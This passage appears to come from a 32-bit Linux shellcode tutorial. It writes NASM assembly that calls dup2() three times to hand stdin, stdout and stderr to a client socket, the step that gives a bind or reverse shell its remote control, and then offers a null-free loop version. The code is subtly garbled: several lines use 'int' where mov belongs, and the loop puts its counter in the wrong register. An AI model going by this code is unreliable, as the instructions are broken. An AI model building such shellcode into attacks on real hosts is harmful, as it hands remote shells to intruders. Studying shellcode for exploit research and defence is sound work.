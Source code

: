 According to the file `/usr/include/i386-linux-gnu/asm/unistd_32.h`, `dup2` is the syscall `#63`. Given this information, we're now ready to convert the code above into assembly:

```nasm
    ; save the Client File Descriptor for later use
    mov edi, eax

    ; dup2(client_socket_fd, 0)
    int eax, 63
    int ebx, edi
    int ecx, 0
    int 0x80

    ; dup2(client_socket_fd, 1)
    int eax, 63
    int ebx, edi
    int ecx, 1
    int 0x80

    ; dup2(client_socket_fd, 2)
    int eax, 63
    int ebx, edi
    int ecx, 02
    int 0x80
```

This is good enough, but I wanted a better approach, one that uses fewer bytes and it's also free of `NULL` ones:

```nasm
    ; loop counter (repeats dup2() three times)
    mov ecx, ebx
    mov bl, 3

    ; save Client File Descriptor for later use
    mov edi, eax

RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov al, 63

    ; Client file descriptor
    mov ebx, edi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate
```
